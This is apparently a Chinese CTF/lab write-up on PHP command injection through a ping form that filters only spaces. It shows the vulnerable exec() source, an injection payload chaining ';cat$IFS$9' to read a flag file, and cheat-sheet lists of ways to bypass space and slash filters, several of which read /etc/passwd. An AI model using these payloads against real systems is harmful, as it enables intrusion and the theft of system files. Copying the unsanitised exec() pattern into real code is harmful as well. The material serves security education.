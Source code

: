 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkY0Ggs29FE5QwaeX38UWr93iaK9fQ8JXNqJNmODpgOYj8hsxfBha3WuLg/640?wx_fmt=png&from=appmsg "")  
### 过滤空格  
  
查看源码  
```
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/ /", $ip, $m)) {                 //只过滤了空格
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>

```  
  
先查看当前目录，得到flag文件  flag_11971489425983.php  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkY8Ve2mLnBTEZ6t8qQicscO430dHSr5BOfrnCh7FWyBCzktBXr7S0icPsQ/640?wx_fmt=png&from=appmsg "")  
  
这里介绍几个绕过空格的方法  
```
$IFS$9   %09    <>    <     {cat,flag}

```  
  
可以绕过空格  
```
127.0.0.1;cat$IFS$9flag_11971489425983.php

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YxCBEqEyrw1oX6Qq34T6JmDHYym3AlkYJNPUYnBZDJYEqhpIgFRibCavhCNqR7OVUljFiaicehUOSWtDGmI4EQkpQ/640?wx_fmt=png&from=appmsg "")  
### 过滤目录分隔符  
  
几种常见的 / 符号绕过方法  
```
改变工作目录：cd xxx   避免使用 / 符号
环境变量截取： ${PATH:0:1}   ${HOME:0:1}
编码绕过：8进制： $(printf "\57")    16进制： $'\x2f'      $'\57'
调用命令生成：a=$(printf "/"); cat ${a}etc${a}passwd     cat  `echo /`etc`echo /`passwd
通配符替代(部分路径已知)：/???/cat /???/passwd            //匹配 /bin/cat
利用反斜杠：cat \/etc\/passwd
协议替代：file_get_contents('glob:///*'); 

```  
  